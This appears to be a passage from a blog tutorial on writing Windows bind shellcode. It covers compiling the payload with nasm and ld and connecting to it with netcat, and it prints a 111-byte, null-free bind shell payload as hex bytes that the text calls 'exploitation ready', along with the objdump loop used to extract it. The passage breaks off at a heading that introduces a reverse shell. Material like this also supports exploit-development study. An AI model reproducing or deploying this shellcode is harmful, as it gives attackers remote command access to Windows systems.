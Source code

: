 ### Compilation

Time to compile this thing. This can be done on Windows by downloading the following tools: 

+ <a href="http://mingw.org/category/wiki/download">ld.exe</a>
+ <a href="https://www.nasm.us/pub/nasm/releasebuilds/">nasm.exe</a>

```nasm
> nasm.exe -f win32 -o bind.obj bind.asm
> ld.exe bind.obj -o bind.exe
```

Or you can cross-compile this on a Linux box:
```text
$ nasm -f win32 bind.asm -o bind.o
$ ld -m i386pe bind.o -o bind.exe
```

### Verify standalone executable

Simply double click on the executable and a cmd terminal will appear.  
![_config.yml]({{ site.baseurl }}/images/bindshell2.png)

Connect to it using netcat and we got a shell!  
![_config.yml]({{ site.baseurl }}/images/bindshell1.png)

If we were going to use the shellcode as a payload for an exploit, then we can easily reduce the size by removing the code to load the socket library (LoadLibraryA()) and the socket startup call (WSAStartup()). This is because the target vulnerable software probably has already loaded the ws2_32.dll library and ran a socket startup call. This can be confirmed with the following command, which will display all loaded DLLs by the executable:

```text
> tasklist.exe /m /fi "imagename eq vulnerable.exe"
```

### Exploitation ready bind shell (111 bytes)

Compiled without LoadLibraryA() and WSAStartup().

```text
$ for i in $(objdump -d shell.exe | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
\x31\xc0\x50\x50\x50\x50\x6a\x01\x6a\x02\xb8\x6a\x8b\xab\x71\xff\xd0\x89\xc3\x31
\xc0\x50\xb8\x02\x01\x11\x5c\xfe\xcc\x50\x89\xe0\x6a\x10\x50\x53\xb8\x80\x44\xab
\x71\xff\xd0\x6a\x01\x53\xb8\xd3\x8c\xab\x71\xff\xd0\x31\xc0\x50\x50\x53\xb8\x40
\x10\xac\x71\xff\xd0\x89\xc3\xba\x63\xd3\x81\x7c\x53\x6a\xf6\xff\xd2\x53\x6a\xf5
\xff\xd2\x53\x6a\xf4\xff\xd2\xc7\x44\x24\xfb\x41\x63\x6d\x64\x8d\x44\x24\xfc\x8d
\x64\x24\xfc\x50\xb8\xc7\x93\xc2\x77\xff\xd0
```

111 bytes. No null bytes. Beautiful, isn't it?


# Building the reverse shell (port 4444)
